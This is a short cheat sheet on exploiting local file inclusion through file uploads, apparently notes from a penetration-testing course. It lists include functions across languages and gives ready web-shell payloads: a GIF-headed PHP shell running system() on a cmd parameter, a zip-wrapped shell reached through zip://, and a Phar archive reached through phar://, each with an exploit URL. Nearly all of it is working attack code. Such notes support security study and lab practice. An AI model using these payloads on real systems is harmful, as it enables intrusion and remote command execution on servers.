 # LFI and File Uploads

## Function

### PHP

```c
include()/include_once()
require()/require_once()
```

### NodeJS

```c
res.render()
```

### Java

```c
import
```

### .NET

```c
include
```

## Image upload

### Crafting Malicious Image

```c
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```c
http://<SERVER_IP>:<PORT>/settings.php
```

### Uploaded File Path

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

```c
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

## Zip Upload

```c
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```c
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

## Phar Upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```php
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```c
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

